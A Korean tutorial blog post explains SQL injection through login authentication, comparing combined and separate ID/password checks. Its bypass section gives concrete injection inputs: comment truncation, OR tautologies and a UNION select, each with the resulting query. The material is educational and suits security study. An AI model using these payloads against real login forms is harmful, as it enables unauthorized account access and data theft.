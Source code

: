 ```yaml
---
layout: post
title: "SQL Injection -01 로그인"
tags: [모의해킹, SQL Injection]
comments: true
---
```


SQL Injection의 개념과 공격 방식 로그인 편

---

## (1) SQL 개념

![image](https://github.com/what0302/what0302.github.io/assets/18510716/ddb55325-2bc2-4ab6-983b-dc0ea67abacb)

### 1-1 SQL이란?

SQL(Structed Query Language : 구조적 질의 언어)는 관계형 데이터베이스 시스템에서 자료를 관리 및 처리하기 위해 설계된 언어임.

### 1-2 SQL Injection이란?

악의적인 사용자가 응용 프로그램 보안 상의 허점을 의도적으로 이용해, 악의적인 SQL 쿼리문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도로 조작하는 행위임.

주로 사용자가 입력한 데이터를 제대로 필터링, 이스케이핑하지 못했을 경우에 발생함. 이러한 Injection 공격은 OWASP에서도 1순위로 분류될 만큼 공격이 성공할 경우 막대한 피해를 입힐 수 있어 보안에 각별한 주의가 필요함.

* OWASP(Open Web Application Security Project : 오픈소스 웹 애플리케이션 보안 프로젝트)란, 주로 웹에 관한 정보노출, 악성파일 및 스크립트, 보안 취약점 등을 연구하는 개방형 커뮤니티이며, 10대 웹 애플리케이션 취약점(OWASP TOP 10)을 발표함.

## (2) 로그인 인증

SQL Injection 공격은 DB와 웹사이트가 연결된 모든 파라미터에서 공격이 가능함. 여기서는 우선 로그인 파라미터에서 공격이 어떤 식으로 진행되는지를 간략히 설명함.

### 2-1 로그인 인증 과정

사용자가 웹사이트에 로그인을 진행하게 되면, 두 가지 프로세스가 처리되는데 하나는 **식별**이고 다른 하나는 **인증**임.

식별은 사용자가 시스템에게 인증받은 자라는 것을 확인 요청하는 프로세스로, 많은 데이터 중에서 사용자를 특정할 수 있는 정보를 뜻함.
대표적인 식별 정보에는 ID가 있으며, 이는 중복될 수 없음.

인증은 시스템이 사용자가 본인임을 증명하는 프로세스로, 일반적으로 비밀번호를 통해 사용자에게 인증을 요구함.
대표적인 인증 정보에는 비밀번호가 있음.

### 2-2 식별과 인증 프로세스

로그인 시 진행되는 식별과 인증의 프로세스는 크게 두 가지로 분류할 수 있음.

### 2-2-1 식별&인증 동시 방식

식별&인증 동시 방식은 아이디와 비밀번호를 동시에 비교해서 로그인하는 과정임.
`select * from table where id='eric' and password='eric1234';`

### 2-2-2 식별&인증 분리 방식

식별&인증 분리 방식은 아이디가 존재하는지 먼저 확인하고 비밀번호를 비교해서 로그인하는 과정임.
`if(select * from table where id='eric'; == user_id){
  if(select * from table where password='eric1234'; ==user_pw)
  }`

## (3) 로그인 인증 우회

로그인 파라미터에 SQL 질의문을 삽입하여 로그인 인증을 우회하는 방법을 설명함.

### 3-1 식별&인증 동시 우회

### 3-1-1 주석 처리 우회

(1) `select * from table where id='eric'#' and password='1';`
입력값 : eric'#

(2) `select * from table where id='eric' or '1'='1' # and password ='1';`
입력값 : eric' or '1'='1' #

-> and 문을 주석처리하여 인증 과정을 우회함

### 3-1-2 or 구문 우회

(1) `select * from table where id='eric' or '1'='1' and password ='1';`
입력값 : eric' or '1'='1

-> SQL 문법에선 or 연산자보다 and 연산자가 우선 처리됨. 즉, 후자의 and 문이 처리되면 거짓으로 처리되나, 이후에 처리되는 or 문 때문에 아이디가 eric 이거나 뒤의 and 문 중 하나만 참이어도 결과가 출력됨. 그러므로 해당 SQL 쿼리가 실행되면 eric의 정보가 추출됨

(2) `select * from table where id='eric' or '1'='1' or '1'='1' and password='1';`
입력값 : eric' or '1'='1' or '1'='1

-> 위에선 eric에 대한 정보만 추출되었다면, 해당 SQL 쿼리는 모든 정보를 추출할 수 있음.

### 3-2 식별&인증 분리 우회

### 3-1-3 union 우회

(1) `select * from table where id='eric' union select '1','2','3','4' # and password='1';`
입력값 : eric' union select '1','2','3','4' #

-> SQL에서 union은 쿼리를 여러개 실행할 수 있게 만들어주는 문법임.













